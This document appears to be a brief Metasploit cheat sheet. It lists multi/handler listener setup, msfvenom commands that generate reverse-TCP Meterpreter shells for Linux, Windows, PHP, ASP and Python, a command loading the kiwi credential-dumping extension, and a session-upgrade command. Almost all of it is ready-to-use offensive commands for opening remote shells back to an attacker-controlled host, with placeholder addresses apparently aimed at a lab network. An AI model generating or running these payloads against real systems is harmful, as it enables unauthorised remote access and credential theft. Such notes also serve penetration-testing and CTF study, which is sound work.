 # Meterpreter runs on the target system but is not installed on it. It runs in memory and does not write itself to the disk on the target

shell

# setting

msf6 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload php/reverse_php
msf5 exploit(multi/handler) > set lhost 10.0.2.19
msf6 exploit(multi/handler) > set lport 7777
msf6 exploit(multi/handler) > show options

# output executable file on linux

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf

# Windows

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe

# PHP

msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php

# ASP

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp

# Python

msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py

# load

load python
load kiwi

# upgrade shell

sessions -u 3
